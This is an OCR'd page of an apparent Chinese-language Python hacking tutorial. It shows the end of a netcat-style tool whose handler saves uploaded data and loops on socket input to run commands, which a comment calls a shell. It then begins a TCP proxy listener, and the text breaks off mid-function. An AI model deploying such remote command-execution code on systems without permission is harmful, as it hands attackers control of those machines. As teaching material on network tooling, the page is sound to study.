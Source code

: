 ```python
    except:
        output = "Failed to execute command.\r\n"

    return output

def client_handler(client_socket):
    global command
    global uploadDestination

    # 上传文件
    if len(uploadDestination):
        data = client_socket.recv(1024).decode()
        try:
            with open(uploadDestination, 'a') as f:
                f.write(data + "\n")

            client_socket.send("Successfully saved.".encode())
        except:
            client_socket.send("Failed to save.".encode())

    
    # 如果需要反弹一个shell，需要进入另一个循环
    if command:
        while True:
            cmd_buff = client_socket.recv(1024)
            resp = run_command(cmd_buff.decode())
            client_socket.send(resp)

    client_socket.close()
if __name__ == '__main__':
    main()
```

## 9.2. TCP代理
```python
import sys
import socket
import threading

def server_loop(local_host, local_port, remote_host, remote_port, receive_first):
    server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    try:
        server.bind((local_host, local_port))
    except Exception as e:
        print("[!!] Failed to listen on %s:%d" % (local_host, local_port))
        print(str(e))
        sys.exit(0)

    print("[*] Listening on %s:%d" % (local_host, local_port))

    server.listen(5)
    while True:
        client_socket, addr = server.accept()

        print("[==>] Received incoming connection from %s:%d" % (addr[0], addr[1]))
        proxy_thread = threading.Thread(target=proxy_handler, args=(client_socket,remote_host, remote_port, receive_first))
        proxy_thread.start()


def main():
    if len(sys.argv[1:]) != 5:
```